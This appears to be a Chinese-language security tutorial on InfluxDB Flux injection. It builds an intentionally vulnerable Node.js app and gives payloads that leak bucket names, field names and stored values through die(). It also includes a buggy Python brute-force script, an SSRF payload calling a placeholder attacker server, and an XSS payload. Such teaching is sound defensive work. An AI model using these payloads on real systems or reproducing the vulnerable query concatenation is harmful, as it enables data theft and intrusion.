| Tag value | Comma, Equals Sign, Space |
| Field key | Comma, Equals Sign, Space |
| Field value | Double quote, Backslash |

### 3.3.6 model of LP

关于这个LP，官方也给出了一个模型，可以用来构建一个LP - **measurement**:`home` - **tags** - `room`: Living Room or Kitchen - **fields** - `temp`: temperature in °C (float) - `hum`: percent humidity (float) - `co`: carbon monoxide in parts per million (integer) - **timestamp**: Unix timestamp in?*second*?precision

## 3.4 查询的操作

两种查询语言：

-   **Flux**：一种函数式脚本语言，旨在查询和处理来自 InfluxDB 和其他数据源的数据。
-   **InfluxQL**：一种类似 SQL 的查询语言，旨在从 InfluxDB 查询时间序列数据。

### 3.4.1 Flux语法

#### 3.4.1.1 基本格式

```js
from(bucket: "example-bucket")
    |> range(start: -1d)
    |> filter(fn: (r) => r._measurement == "example-measurement")
    |> mean()
    |> yield(name: "_results")
```

-   from(): 从哪个bucket中查询
-   range(): 根据时间范围过滤数据。Flux 需要“有界”查询——仅限于特定时间范围的查询。
-   filter(): 根据列值过滤数据。每行由 表示`r`，每列由 的属性表示`r`。可以使用多个过滤器。
-   yield():输出
-   mean():计算每个输入表的列中非空值的平均值`_value`

#### 3.4.1.2 Pipe-forward operator(管道转发符)

Flux 使用管道转发运算符 (`|>`) 将一个函数的输出作为输入传递到下一个函数作为输入。

docs也是举了一个例子1:

以下 Flux 查询返回存储在**家庭测量中的** **co**、**hum**和**temp**字段，其时间戳**在 2022-01-01T08:00:00Z 和 2022-01-01T20:00:01Z 之间**。

```js
from(bucket: "get-started")
    |> range(start: 2022-01-01T08:00:00Z, stop: 2022-01-01T20:00:01Z)
    |> filter(fn: (r) => r._measurement == "home")
    |> filter(fn: (r) => r._field== "co" or r._field == "hum" or r._field == "temp")
```

### 3.4.2 influxQL语法

InfluxQL 是一种类 SQL 查询语言，与大多数 SQL 语言类似，但专门设计用于查询 InfluxDB 0.x 和 1.x 中的时间序列数据。

#### 3.4.2.1 基本的查询知识

-   `SELECT`: 指定要查询的字段和标签。
-   `FROM`: 指定要查询的测量值。使用测量名称或包含数据库和保留策略的完全限定测量名称。例如：`db.rp.measurement`。
-   `WHERE`:(可选）根据字段、标签和时间过滤数据。

```sql
SELECT co,hum,temp,room FROM "get-started".autogen.home WHERE time >= '2022-01-01T08:00:00Z' AND time <= '2022-01-01T20:00:00Z'
```

其实就和sql语句差不多.

## 3.5 注入利用

经过上面基础知识的学习，想必你已经有了一定的概念，那么我们就开始利用吧

### 3.5.1 构建一个易被攻击的web

```js
const express = require('express');
const {InfluxDB, Point} = require('@influxdata/influxdb-client')

const app = express();

const token = 'REDACTED' // InfluxDB Token
const url = 'https://127.0.0.1' // Local Database endpoint
const org = 'myOrg'
const bucket = 'publicBucket'

const client = new InfluxDB({url, token})

async function query(fluxQuery) {
  results = []

  queryApi = client.getQueryApi(org)

  for await (const {values, tableMeta} of queryApi.iterateRows(fluxQuery)) {
    o = tableMeta.toObject(values)
    console.log(o)
    results.push(o)
  }

  return results
}

app.get('/query', async (req, res) => {
    try {
      const fluxQuery = 'from(bucket:"' + bucket + '") |> range(start: 0)  |> filter(fn: (r) => r._field == "public_field" and r._value == "' + req.query.data + '") '
      result = await query(fluxQuery)

      res.send(result)
    } catch (err) {
      res.send(err.toString())  
    }
});

const port = 3000;

app.listen(port, () => {
  console.log(`Server started on port ${port}`);
});
```

当我们只传入`"`的时候



发现了报错，也就是：

```js
const fluxQuery = '
from(bucket:"' + bucket + '") 
|> range(start: 0)  
|> filter(fn: (r) => r._field == "public_field" and r._value == "' + req.query.data + '") '
result = await query(fluxQuery)
```

这样的查询语句，其报错内容在 [https://docs.influxdata.com/influxdb/v2.7/](https://docs.influxdata.com/influxdb/v2.7/ "https://docs.influxdata.com/influxdb/v2.7/") 可以查找到，所以可以知道是influxdb的数据库。

### 3.5.2 构建一些playload

#### 3.5.2.1 泄露bucket的名称

playload：

```js
") |> yield(name: "1337") 
buckets() |> filter(fn: (r) => r.name =~ /^a.*/ and die(msg:r.name)) 
//
```

1.  该`buckets()`函数列出当前数据库中的所有存储桶。
2.  该`filter()`函数使用`r.name`表达式来过滤存储桶名称，该名称`r`是存储桶查询的结果，并且`name`是函数中返回的字段`buckets()`。
3.  如您所见，InfluxDB 查询支持正则表达式操作`=~`，因此条件背后的逻辑`r.name =~ /^a.*/`是，`true`如果存储桶名称以字母 开头，则为该条件`a`。
4.  之后，过滤器使用一个`and`条件来调用函数，`die()`并将存储桶名称的值作为参数。该`die()`函数会抛出一个错误，并在第一个参数中传递自定义消息，这将泄漏存储桶名称。
5.  有效负载也在`yield()`存储桶查询之前使用该函数。这是在 InfluxDB 上的单个请求中执行“多个查询”所必需的。
6.  最后，有必要用`yield()`一个新行将 与存储桶查询分开，并且在有效负载的末尾，我在`//`另一个新行后面添加了表达式，以注释注入后的所有内容。

也就是如果数据库中存在以`a`开头的数据库名，他就会返回其name，如果没有的话就会返回null。

当为`a`时：

 当为`p`时：



可以看见返回了`privateBucket`这个bucket，这个地方可以用burp爆

exp.py:

```python
import requests
import string
url = "https://127.0.0.1:3000?query="
para1= " ") |> yield(name: "1337") buckets() |> filter(fn: (r) => r.name =~ /^{}.*/ and die(msg:r.name)) //"
s=''+string.ascii_letters
flag = sensitive_field
for i in range(0,52):
    for j in s:
        try:
            htmlLen = requests.get(url=url+para1.format(j)).text
        except:
            print(j)
        if flag in htmlLen:
            print(htmlLen,endd='')
            break
//为了让你们更加直观的看见playload，所以这里没有进行编码，所以可能在para1处会报错。
```

#### 3.5.2.2 泄露bucket及其相关数据

前面已经有bucket的名称了，所以就直接from

```js
") |> yield(name: "1337") 
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => die(msg:r)) 
 //
```

这里就是把`filter`中的`r`也就是匹配出来的所有东西都输出出来

最终页面返回：

```js
_value: B,
_time: time,
_stop: time,
_start: time,
_measurement: string,
_field: string
```

也就是这个bucket中的所有的结构和其对应的数据类型，那么接下来便可以爆破其字段的名称

```js
") |> yield(name: "1337")
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => r._field =~ /s.*/ and die(msg:r._field))
 //
```

也就是爆破出以`s`开头的字段名称，这个和前面泄露bucket名的是一个原理



可以看见这个字段名为:`sensitive_field`

接下来就是爆其数据了

```js
") |> yield(name: "1337")
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => r._field == "sensitive_field" and die(msg:string(v:r._value)))
 //
```

注意下这里的数据类型！！不然可能会报错(放出为int类型的时候，**因为r.field默认为int类型**)

```cpp
HttpError: runtime error @2:54-2:124: filter: type conflict: string != int
```



可以看见这里的值为1337

## 3.6 SSRF利用

在官方文档中，可以看见influxdb在from函数之中是可以接受host参数的



所以可以构造playload：

```js
") |> yield(name: "1337")
 from(bucket: "1337", host:"https://ATTACKER-SERVER") |> range(start:0)
 //
```

## 3.7 XSS利用

看见上面构建的程序

```js
app.get('/query', async (req, res) => {
    try {
      const fluxQuery = 'from(bucket:"' + bucket + '") |> range(start: 0)  |> filter(fn: (r) => r._field == "public_field" and r._value == "' + req.query.data + '") '
      result = await query(fluxQuery)

      res.send(result)
    } catch (err) {
      res.send(err.toString())  
    }
});
```

当 InfluxDB 查询中发生错误时，该`try{ } catch{ }`语句会将错误发送回客户端，并使用`Content-Type`equals to?`text/html`，允许浏览器加载 HTML 和 JavaScript。

这个时候我们就可以利用die函数在浏览器上执行xss

```javascript
") die(msg:"")//
```



# 4 参考文章

1.  [https://xz.aliyun.com/t/9908?time\_\_1311=n4%2BxuDgD9Am4BlDRDBqDqpDU2fDcYoEEOBrGYD#toc-8](https://xz.aliyun.com/t/9908?time__1311=n4%2BxuDgD9Am4BlDRDBqDqpDU2fDcYoEEOBrGYD#toc-8 " https://xz.aliyun.com/t/9908?time__1311=n4%2BxuDgD9Am4BlDRDBqDqpDU2fDcYoEEOBrGYD#toc-8")
    
2.  [https://portswigger.net/web-security/nosql-injection#exploiting-nosql-operator-injection-to-extract-data](https://portswigger.net/web-security/nosql-injection#exploiting-nosql-operator-injection-to-extract-data "https://portswigger.net/web-security/nosql-injection#exploiting-nosql-operator-injection-to-extract-data")
    
3.  [https://rafa.hashnode.dev/influxdb-nosql-injection#heading-influxdb-nosql-queries](https://rafa.hashnode.dev/influxdb-nosql-injection#heading-influxdb-nosql-queries "https://rafa.hashnode.dev/influxdb-nosql-injection#heading-influxdb-nosql-queries")
    
4.  [https://docs.influxdata.com/influxdb/v2/](https://docs.influxdata.com/influxdb/v2/ "https://docs.influxdata.com/influxdb/v2/")
    

- - -

 本文由 Seebug Paper 发布，如需转载请注明来源。本文地址：[https://paper.seebug.org/3116/](https://paper.seebug.org/3116/)
